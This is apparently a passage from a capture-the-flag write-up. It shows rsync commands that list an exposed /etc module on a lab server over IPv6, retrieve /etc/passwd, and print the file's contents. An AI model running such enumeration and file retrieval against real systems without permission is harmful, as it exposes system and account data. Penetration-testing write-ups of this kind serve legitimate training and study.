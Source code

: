 I did notice that the message of the day says that there are modules for “Backup access” and “Cloud Sync”, but only “Backup access: ones show up. Eventually, I tried other directories typically found at the system root. `/home/` failed, but `/etc/` worked:

```

root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/                                                                                                          
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this
system may result in civil and/or criminal penalties.

All activities performed on this device are logged and monitored.
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".

drwxr-xr-x          4,096 2019/08/31 15:56:06 .
-rw-r--r--          2,981 2019/07/27 03:01:29 adduser.conf
-rw-r--r--             44 2019/07/27 03:03:30 adjtime
-rw-r--r--          1,994 2019/04/18 00:12:36 bash.bashrc
-rw-r--r--            367 2018/03/02 15:03:58 bindresvport.blacklist
-rw-r--r--          5,713 2019/07/27 03:07:27 ca-certificates.conf
-rw-r--r--          1,042 2019/06/23 13:49:01 crontab
-rw-r--r--          2,969 2019/02/26 04:30:35 debconf.conf
-rw-r--r--              5 2019/04/19 07:00:00 debian_version
-rw-r--r--            604 2016/06/26 16:00:56 deluser.conf
-rw-r--r--            346 2018/01/14 16:27:01 discover-modprobe.conf
...[snip]...

```

I can get the `/etc/passwd` file:

```

root@kali# rsync -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/passwd
root@kali# cat passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```